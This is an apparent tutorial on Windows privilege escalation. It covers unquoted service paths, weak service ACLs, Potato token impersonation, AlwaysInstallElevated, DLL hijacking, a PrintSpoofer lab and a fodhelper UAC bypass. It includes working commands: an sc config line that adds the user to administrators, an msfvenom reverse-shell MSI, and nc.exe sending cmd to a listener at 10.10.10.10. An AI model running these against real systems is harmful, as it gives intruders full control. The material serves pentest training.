


# Windows Privilege Escalation: From User to God

## 1. Introduction
Privilege Escalation is the art of moving from a standard user context (`Medium Integrity`) to an administrative context (`High Integrity` or `SYSTEM`).

Unlike Linux (where you look for SUID binaries or Kernel exploits), Windows PrivEsc is often about **Misconfigurations**. Windows is complex; admins make mistakes setting permissions on Services, Folders, and Registry keys.

### The Hierarchy
1.  **Guest / Anonymous**: Almost useless.
2.  **Standard User**: Can read most things, cannot install software or change system settings.
3.  **Administrator (Split Token)**: Has the *potential* to be Admin, but runs as Standard User until UAC is bypassed.
4.  **Administrator (High Integrity)**: Full control.
5.  **NT AUTHORITY\SYSTEM**: The kernel's identity. Unrestricted access.

---

## 2. Methodology: The Enumeration Loop

Do not just run scripts. Understand what you are checking.

1.  **System Info**: OS Version, Patches (`systeminfo`).
2.  **User Info**: Who am I? What groups? (`whoami /all`).
3.  **Network**: Interfaces, Connections (`ipconfig /all`, `netstat -ano`).
4.  **Processes/Services**: What is running? Who owns it?
5.  **Filesystem**: Secrets in cleartext?

---

## 3. Vector 1: Kernel Exploits
Using a bug in the OS kernel to overwrite structures and grant yourself a System Token.
*   **Enumeration**: `systeminfo` -> Check OS Build and Hotfixes.
*   **Tools**: `Windows-Exploit-Suggester` (Python), `Sherlock.ps1` (Deprecated), `Watson`.
*   **Risks**: **Blue Screen of Death (BSOD)**. Kernel exploits are unstable. Use as a last resort.

---

## 4. Vector 2: Service Abuse (The Gold Mine)
Services run as SYSTEM. If we can manipulate a service, we can execute code as SYSTEM.

### 4.1 Unquoted Service Paths
*   **The Flaw**: Path is `C:\Program Files\My App\Common Files\service.exe`.
*   **The Logic**: Windows looks for:
    1.  `C:\Program.exe`
    2.  `C:\Program Files\My.exe`
    3.  ...
*   **The Exploit**: Write a malicious `Common.exe` in `C:\Program Files\My App\`.
*   **Constraint**: You need **Write** permission in that folder.

### 4.2 Weak Service Permissions
*   **The Flaw**: The service object itself has a loose ACL.
*   **Tool**: `accesschk.exe -ucqv <ServiceName>`
*   **Finding**: `BUILTIN\Users` has `SERVICE_CHANGE_CONFIG` or `SERVICE_ALL_ACCESS`.
*   **The Exploit**:
    ```cmd
    sc config <ServiceName> binpath= "net localgroup administrators <myuser> /add"
    net stop <ServiceName>
    net start <ServiceName>
    ```

### 4.3 Weak Registry Permissions
*   **The Flaw**: The Registry Key defining the service (`HKLM\SYSTEM\CurrentControlSet\Services\<Name>`) is writable.
*   **The Exploit**: Change the `ImagePath` value to your payload.

---

## 5. Vector 3: The "Potato" Family (Token Impersonation)
This is the most reliable method for Service Accounts (IIS, SQL).

### 5.1 The Privilege: `SeImpersonatePrivilege`
*   **What is it?**: Allows a service to "act on behalf of" a user who connects to it.
*   **The Attack**:
    1.  Attacker sets up a rogue COM server (Rotten/Juicy) or Named Pipe (PrintSpoofer).
    2.  Attacker forces the **SYSTEM** account (via DCOM or Spooler) to connect to this rogue server.
    3.  The Service (Attacker) receives the connection and captures the SYSTEM token.
    4.  The Service calls `ImpersonateLoggedOnUser()` to become SYSTEM.
    5.  The Service calls `CreateProcessAsUser()` to launch a shell.

### 5.2 Variants
*   **JuicyPotato**: Works on older Windows (Server 2016 and below). Uses COM.
*   **PrintSpoofer**: Works on newer Windows (Server 2019/2022). Abuses the Printer Spooler service.
*   **RoguePotato**: A variant of Juicy for newer versions.
*   **GodPotato**: Uses the `.NET` marshaling logic.

---

## 6. Vector 4: AlwaysInstallElevated
A registry setting intended for testing, often left on.
*   **Enumeration**:
    ```cmd
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    ```
*   **Requirement**: Both keys must be `0x1`.
*   **Exploit**: Run any MSI file. It executes as SYSTEM.
    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=... -f msi > evil.msi
    msiexec /quiet /qn /i evil.msi
    ```

---

## 7. Vector 5: DLL Hijacking
Applications often try to load DLLs that don't exist (e.g., `userenv.dll` in a strange path).
*   **Discovery**: Process Monitor (ProcMon). Filter for "Result contains NOT FOUND" and "Path ends with .dll".
*   **Constraint**: You must have **Write** access to the folder where the app is looking.
*   **Exploit**: Create a DLL that executes shellcode in `DllMain`.

---

## 8. Practical Lab: PrintSpoofer

### Scenario: IIS Service Account
You have a shell. `whoami` returns `nt authority\network service`. `whoami /priv` shows `SeImpersonatePrivilege`.

**Step 1: Verify Architecture**
```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```
*   Result: Windows Server 2019, x64. (JuicyPotato might fail, PrintSpoofer is better).

**Step 2: Upload Tool**
Upload `PrintSpoofer64.exe` and `nc.exe`.

**Step 3: Execute**
```cmd
PrintSpoofer64.exe -i -c "c:\temp\nc.exe 10.10.10.10 4444 -e cmd"
```
*   `-i`: Interact in the current session (if possible).
*   `-c`: Command to run.

**Step 4: Root Dance**
Check listener. `whoami` -> `nt authority\system`.

---

## 9. Diagrams (Mermaid)

### Service ACL Exploitation



---

## 10. Critical Analysis

### Automated Tools vs Manual Verification
Tools like **WinPEAS** are excellent but noisy and can be overwhelmed by false positives.
*   **Strategy**: Run WinPEAS. Redirect output to a file. **Read the file**. Search for "Red" (High probability).
*   **Warning**: Do not blindly run every exploit suggested by Watson. Understand *why* it works.

### Interview Questions
1.  **Q**: What is a "Scheduled Task" exploit in PrivEsc?
    -   **A**: If a scheduled task runs as SYSTEM but executes a script/binary that a standard user can modify (Weak File Permissions), the user can replace the binary. The next time the task runs, they get SYSTEM.
2.  **Q**: How do you bypass UAC?
    -   **A**: **fodhelper.exe** technique. Fodhelper is a Windows binary that auto-elevates (runs as High Integrity) without a prompt. It checks the Registry for commands to run. We modify the registry key it checks (`HKCU\Software\Classes\ms-settings\Shell\Open\command`) to point to our shell.

---

## 11. References
- [[06_Windows_Services_Processes]]
- [[05_Windows_Permissions_ACLs]]

# End of Document
